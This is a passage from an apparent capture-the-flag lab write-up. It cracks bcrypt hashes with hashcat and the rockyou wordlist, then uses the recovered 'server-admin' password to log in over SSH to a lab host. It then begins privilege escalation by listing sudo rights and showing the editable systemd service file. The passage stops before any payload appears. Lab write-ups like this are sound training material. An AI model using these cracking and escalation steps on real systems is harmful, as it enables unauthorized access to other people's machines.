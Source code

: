 Now:

```
hashcat -m 3200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20250609134802.png]]

This is the password for the `server-admin` user:

```
server-admin:inuyasha
```


Let's go into ssh:

```
ssh server-admin@10.10.38.213
```


![[Pasted image 20250609134933.png]]
Now, we can begin privilege escalation.


# PRIVILEGE ESCALATION
---

Let's check our sudo privileges first:

```
server-admin@duckyinc:~$ sudo -l
[sudo] password for server-admin:
Matching Defaults entries for server-admin on duckyinc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on duckyinc:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl restart duckyinc.service, /bin/systemctl daemon-reload, sudoedit
        /etc/systemd/system/duckyinc.service
```

So, we can edit the `/etc/systemd/system/duckyinc.service`, let's take a look at the service:

```
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=flask-app
Group=www-data
WorkingDirectory=/var/www/duckyinc
ExecStart=/usr/local/bin/gunicorn --workers 3 --bind=unix:/var/www/duckyinc/duckyinc.sock --timeout 60 -m 007 app:app
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```
